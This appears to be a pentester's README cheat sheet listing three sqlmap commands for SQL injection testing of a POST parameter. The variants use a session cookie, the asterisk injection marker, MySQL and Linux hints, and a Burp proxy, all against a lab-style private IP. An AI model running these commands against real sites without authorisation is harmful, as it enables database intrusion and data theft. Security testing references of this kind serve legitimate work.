 # SQLMapExamples
A list of sample SQL Map Injection Commands.  SQLMap is a powerful tool for identifying SQL injection vulnerabilities.  However, everytime I use it, I struggle with the parameters.  The following is a list of SQLMap one-liners that I have used in the past and keep here so I can copy and paste and modify the parameters are required.

Reference:
https://github.com/sqlmapproject/sqlmap/wiki/Usage



## SQLMap Injection on POST parameter with a PHP Session ID
Here we have simple sql injection test agianst a single POST parameter
```
sqlmap.py -u "http://10.10.10.10/profile.php" --data="name=1234567890" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.176/profile.php" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is the same injection attack as above but using the astrix to inject at a predetermined postion for a MySQL database running on a Linux platform:
```
sqlmap.py -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.176/profile.php" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is a SQL injection attack which has been configured to run through a Proxy (BurpSuite)
```
sqlmap.py -u "http://10.10.10.10/rofile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.176/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


